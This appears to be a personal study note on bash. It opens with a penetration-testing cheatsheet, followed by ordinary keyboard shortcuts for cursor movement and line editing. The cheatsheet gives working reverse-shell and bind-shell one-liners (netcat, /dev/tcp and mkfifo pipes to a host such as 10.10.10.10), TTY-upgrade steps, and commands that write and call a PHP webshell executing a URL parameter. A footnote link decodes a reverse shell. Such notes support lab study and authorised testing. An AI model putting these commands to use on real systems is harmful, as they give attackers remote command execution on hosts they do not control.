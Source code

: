 # 🤖 bash

Tags: #🤖
Related to: 
See also: 
Previous: [[PROGRAMMING]], [[Getting Started]], [[Introduction to Bash Scripting]]

## Description

## Cheatsheet

| Command | Description |
|-|-|
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f \| /bin/sh -i 2>&1 \| nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f \| /bin/bash -i 2>&1 \| nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |

#### Auto-Complete

`[TAB]` - Initiates auto-complete. This will suggest to us different options based on the `STDIN` we provide. These can be specific suggestions like directories in our current working environment, commands starting with the same number of characters we already typed, or options.

#### Cursor Movement

`[CTRL] + A` - Move the cursor to the `beginning` of the current line.

`[CTRL] + E` - Move the cursor to the `end` of the current line.

`[CTRL] + [←]` / `[→]` - Jump at the beginning of the current/previous word.

`[ALT] + B` / `F` - Jump backward/forward one word.

#### Erase The Current Line

`[CTRL] + U` - Erase everything from the current position of the cursor to the `beginning` of the line.

`[Ctrl] + K` - Erase everything from the current position of the cursor to the `end` of the line.


[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261